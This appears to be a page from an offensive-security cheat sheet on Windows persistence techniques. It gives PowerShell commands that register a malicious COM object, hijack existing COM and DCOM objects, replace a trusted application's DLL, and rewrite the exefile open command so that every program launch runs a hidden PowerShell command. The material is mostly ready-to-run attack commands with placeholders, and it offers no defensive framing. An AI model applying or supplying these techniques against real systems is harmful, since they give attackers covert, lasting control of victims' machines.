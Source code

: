 #### Register a Malicious COM Object for Persistence
You can create a new COM object and register it to load a malicious DLL to maintain persistence:
```powershell
New-Item -Path "HKCU:\Software\Classes\CLSID\{<GUID>}\InprocServer32" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{<GUID>}\InprocServer32" -Name "(Default)" -Value "C:\path\to\malicious.dll"
Set-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{<GUID>}\InprocServer32" -Name "ThreadingModel" -Value "Apartment"
```
Explanation:
- `{<GUID>}`: Replace with a valid CLSID for the new or hijacked COM object.
- `InprocServer32`: Specifies the path to the DLL that will be loaded by the COM object.
- `ThreadingModel`: Specifies the threading model (e.g., "Apartment") used by the COM object.

#### Hijack an Existing COM Object for Persistence
Hijacking involves modifying an existing COM object to point to a malicious payload, such as a DLL or an executable. This method can be used to intercept legitimate COM invocations and redirect them to malicious code.
Example of redirecting the `LocalServer32` key for a COM object to execute a malicious executable:
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\CLSID\{<GUID>}' -Name 'LocalServer32' -Value 'C:\path\to\malicious.exe'
```
This tells the system to execute the specified malicious executable whenever the COM object is invoked.

#### Hijacking Trusted DLLs in System Paths
Hijacking trusted DLLs involves replacing or placing a malicious DLL in a location that a legitimate application will load during execution. This can be effective if a writable directory exists in the search path of a trusted application:
1. Identify the target application that loads a DLL from a writable directory.
2. Replace the legitimate DLL with a malicious DLL:
```powershell
Copy-Item -Path "C:\path\to\malicious.dll" -Destination "C:\Program Files\TargetApp\legit.dll" -Force
```

#### COM Hijacking for DCOM Objects
DCOM (Distributed COM) objects are also vulnerable to hijacking. You can modify DCOM settings similarly to local COM objects, causing them to load malicious payloads. Here's an example of hijacking a DCOM object for persistence by executing `powershell.exe`:
```powershell
$regPath = "HKCU:\Software\Classes\CLSID\{<GUID>}\InprocServer32"
Set-ItemProperty -Path $regPath -Name "(Default)" -Value "powershell.exe"
Set-ItemProperty -Path $regPath -Name "ThreadingModel" -Value "Apartment"
```
- `(Default)` is set to `powershell.exe`, which executes when the DCOM object is triggered.
- `ThreadingModel` ensures the COM object runs in the appropriate threading environment (in this case, single-threaded "Apartment").

#### Modifying COM Objects for Malicious Script Execution
Another method involves modifying COM objects responsible for launching executables to point to a PowerShell command or script:
```powershell
$regPath = "HKCU:\Software\Classes\exefile\shell\open\command"
Set-ItemProperty -Path $regPath -Name "(Default)" -Value "powershell.exe -NoProfile -WindowStyle Hidden -Command <command_or_script_path>"
```
This command will execute the malicious script or command when an executable file is run.
